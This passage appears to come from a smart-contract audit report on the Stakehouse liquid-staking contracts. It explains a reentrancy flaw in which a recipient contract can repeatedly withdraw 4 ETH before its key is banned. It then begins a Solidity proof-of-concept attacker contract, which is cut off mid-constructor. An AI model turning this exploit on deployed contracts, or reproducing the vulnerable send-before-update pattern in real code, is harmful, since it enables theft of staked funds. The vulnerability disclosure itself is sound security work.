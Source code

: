 ```solidity
            _recipient,
            "",
            4 ether
        );

        // update the mapping
        bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;

        emit ETHWithdrawnFromSmartWallet(associatedSmartWallet, _blsPublicKeyOfKnot, msg.sender);
    }
```

Note the section:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);

// update the mapping
bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;
```

If the \_recipient is a smart contract, it can re-enter the withdraw function to withdraw another 4 ETH multiple times before the public key is banned.

As shown in our running POC.

We need to add the import first:

```solidity
import { MockAccountManager } from "../../contracts/testing/stakehouse/MockAccountManager.sol";
```

We can add the smart contract below:

<https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12>

```solidity
interface IManager {
    function registerBLSPublicKeys(
        bytes[] calldata _blsPublicKeys,
        bytes[] calldata _blsSignatures,
        address _eoaRepresentative
    ) external payable;
    function withdrawETHForKnot(
        address _recipient, 
        bytes calldata _blsPublicKeyOfKnot
    ) external;
}

contract NonEOARepresentative {

    address manager;
    bool state;

    constructor(address _manager) payable {

        bytes[] memory publicKeys = new bytes[](2);
        publicKeys[0] = "publicKeys1";
        publicKeys[1] = "publicKeys2";

        bytes[] memory signature = new bytes[](2);
        signature[0] = "signature1";
```